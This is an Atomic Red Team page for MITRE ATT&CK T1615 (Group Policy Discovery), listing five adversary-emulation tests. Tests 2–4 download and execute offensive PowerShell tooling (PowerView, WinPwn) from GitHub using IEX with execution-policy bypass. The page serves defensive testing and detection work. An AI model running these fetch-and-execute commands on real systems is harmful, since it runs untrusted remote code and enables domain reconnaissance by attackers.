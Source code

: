 ```yaml
---
tags: [T1615, atomic_test]
filename: "[[T1615|T1615 - Group Policy Discovery]]"
---
```

# T1615 - Group Policy Discovery

## Atomic Test #1 - Display group policy information via gpresult
Uses the built-in Windows utility gpresult to display the Resultant Set of Policy (RSoP) information for a remote user and computer
The /z parameter displays all available information about Group Policy. More parameters can be found in the linked Microsoft documentation
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/gpresult
https://unit42.paloaltonetworks.com/emissary-trojan-changelog-did-operation-lotus-blossom-cause-it-to-evolve/
Turla has used the /z and /v parameters: https://www.welivesecurity.com/wp-content/uploads/2020/05/ESET_Turla_ComRAT.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** 0976990f-53b1-4d3f-a185-6df5be429d3b






#### Attack Commands: Run with `command_prompt`! 


```cmd
gpresult /z
```






<br/>
<br/>

## Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView
Use PowerView to Get-DomainGPO This will only work on Windows 10 Enterprise and A DC Windows 2019.

**Supported Platforms:** Windows


**auto_generated_guid:** 4e524c4e-0e02-49aa-8df5-93f3f7959b9f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/86921fbbf4945441e2f9d9e7712c5a6e96eed0f3/empire/server/data/module_source/situational_awareness/network/powerview.ps1'); Get-DomainGPO"
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - GPOAudit
Check domain Group policies for common misconfigurations using Grouper2 via GPOAudit function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** bc25c04b-841e-4965-855f-d1f645d7ab73






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPOAudit -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - GPORemoteAccessPolicy
Enumerate remote access policies through group policy using GPORemoteAccessPolicy function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7230d01a-0a72-4bd5-9d7f-c6d472bc6a59






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPORemoteAccessPolicy -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #5 - MSFT Get-GPO Cmdlet
The Get-GPO cmdlet gets one Group Policy Object (GPO) or all the GPOs in a domain. Tested on Windows Server 2019 as a domain user with computer joined to domain. Reference: https://docs.microsoft.com/en-us/powershell/module/grouppolicy/get-gpo?view=windowsserver2022-ps

**Supported Platforms:** Windows


**auto_generated_guid:** 52778a8f-a10b-41a4-9eae-52ddb74072bf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| gpo_output | The output of the Get-GPO cmdlet | string | $env:temp&#92;GPO_Output.txt|
| gpo_param | You can specify a GPO by its display name or by its globally unique identifier (GUID) to get a single GPO, or you can get all the GPOs in the domain through the All parameter | string | -All|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Get-GPO -Domain $ENV:userdnsdomain #{gpo_param} >> #{gpo_output}
```

#### Cleanup Commands:
```powershell
del $env:temp\GPO_Output.txt -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Add Rsat.ActiveDirectory.DS
##### Check Prereq Commands:
```powershell
if(Get-WindowsCapability -Online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0
```
##### Description: Add Rsat.GroupPolicy.Management.Tools ###Two RSAT Modules needed for this to work on Win10, WinServer 2019 works by default. This will take a long time (almost 2 minutes) to install RSAT Manually###.
##### Check Prereq Commands:
```powershell
if(Get-WindowsCapability -Online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0
```




<br/>

